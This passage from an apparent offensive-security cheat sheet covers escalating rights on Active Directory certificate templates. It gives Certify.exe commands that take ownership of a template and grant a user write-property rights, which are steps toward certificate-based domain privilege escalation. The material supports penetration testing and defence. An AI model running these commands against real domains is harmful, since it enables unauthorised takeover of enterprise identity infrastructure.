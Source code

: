 If we have any of the rights above, these can be chained together to escalate to "Full Control / Write Property" rights:

- **Owner / Write DACL** → **Full Control / Write Property**

```OR```
- **Write Owner** → **Owner / Write DACL** → **Full Control / Write Property**

#### Method 1: Owner / Write DACL → Full Control / Write Property

```bash
.\Certify.exe manage-template --template $TEMPLATE --write-property $UserSID
```

#### Method 2: Write Owner → Owner / Write DACL → Full Control / Write Property

```bash
# Step 1: Grant Owner Rights
.\Certify.exe manage-template --template $TEMPLATE --owner $UserSID

# Step 2: Grant Write-Property Rights
.\Certify.exe manage-template --template $TEMPLATE --write-property $UserSID
```

## ESC6

